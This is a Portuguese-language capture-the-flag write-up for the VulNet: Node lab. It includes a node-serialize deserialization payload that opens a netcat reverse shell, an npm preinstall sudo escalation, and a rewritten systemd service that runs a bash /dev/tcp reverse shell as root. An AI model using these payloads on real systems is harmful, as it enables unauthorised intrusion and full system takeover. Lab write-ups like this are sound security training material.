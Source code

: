 # _**VulNet: Node CTF**_
![](net.jpg)

## _**Enumeração**_
Primeiro, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap -p 0-9999 -A -T5 [ip_address]
> ```
![](scan_nmap.jpg)

Temos um website, vamos investigar  
Procurando por informações relevantes, encontramos uma página de login
Testaram-se algumas entradas como **admin** e também SQL Injection, mas sem sucesso  
Buscou-se investigar as requisições feitas quanto uma tentativa de login era feita  
Encontrou-se um cookie  

![](cookie.jpg)

Traduzindo de _URL enconde_ e _base64_, temos: **{"username":"Guest","isGuest":true,"encoding": "utf-8"}**
Realizando algumas alterações, tentamos os seguintes, após codificar em base64 e URL encode  
* {"username":"Guest","isGuest":true,"encoding": "utf-8"}
* {"username":"admin","isGuest":false,"encoding": "utf-8","role":"admin"}
* {"username":"Guest","isGuest":false,"encoding": "utf-8"}
Mas sem sucesso  
Uma nova tentativa foi feita na página principal, mas desta vez com **teste**  

![](json_return.jpg)

Temos um erro JSON  
Esse módulo, _node-serialize_ é conhecido por ser vulnerável a _**object property injection/Prototype Pollution/Remote Code Execution (RCE)**_ quando mal usado  
Pesquisando mais sobre esse erro, foi encontrado [este artigo](https://medium.com/@chaudharyaditya/insecure-deserialization-3035c6b5766e)  
Ao ler o artigo, construímos nosso _payload_ para ficar assim:
> {"username":"_$$ND_FUNC$$_function() { require('child_process').exec('rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc [ip_address] [port] > /tmp/f'); }()"}

Codificamos ele para base64 cmo <mark>CyberChef</mark> e executamos com <mark>Burpsuite</mark>

![](shell.jpg)

## _**Escalando privilégios**_
Primeiro, vamos tentar o comando ```sudo -l```  

![](sudo.jpg)

Pesquisando em [GFTOBins](https://gtfobins.github.io/gtfobins/npm/), temos  

![](gftobins.jpg)

Parece que o binário é vulnerável e podemos explorar  
Executando os comandos abaixo:
> ```bash
> TF=$(mktemp -d)
> echo '{"scripts": {"preinstall": "/bin/sh"}}' > $TF/package.json
> chmod 777 $TF
> sudo -u serv-manage npm -C $TF --unsafe-perm i
> ```

![](server_manager.jpg)

Agora precisamos escalar para _root_  
Vamos novamente tentar o comando ```sudo -l```  

![](new_sudo.jpg)

Localizamos os arquivos e então listamos suas permissões  

![](vuln_perm.jpg)

```vulnnet-auto.timer``` é um arquivo Timer  
Timers são arquivos de unidade do systemd cujo nome termina em ".timer" e que controlam arquivos .service ou eventos  
Timers podem ser usados ​​como uma alternativa ao cron  

```vulnnet-job.service``` é um arquivo de unidade do systemd, que é o que o systemctl referencia ao iniciar um serviço  
Ele contém informações sobre o serviço a ser executado  

![](vuln_srvice.jpg)

Parece que _ExecStart=/bin/df_ é executado  
Vamos criar um _reverse shell_ para ser executado ao invés de _/bin/df_ já que podemos alterar o arquivo em questão  
Ao tentarmos alterar o arquivo com ```nano```, tudo se torna extremamente bugado  
Tentando alterar com ```echo``` também não funciona  
A solução foi
> printf '[Unit]\nDescription=abc\n\n[Service]\nType=simple\nUser=root\nExecStart=/bin/bash -c "bash -i >& /dev/tcp/[ip_address]/[port] 0>&1"\n\n[Install]\nWantedBy=multi-user.target' > vulnnet-job.service

Basta executar os comandos abaixo com ```netcat``` ligad e obter o _reverse shell_  
> ```bash
> sudo /bin/systemctl stop vulnnet-auto.timer
> sudo /bin/systemctl start vulnnet-auto.timer
> ```

Vá atrás das flags!
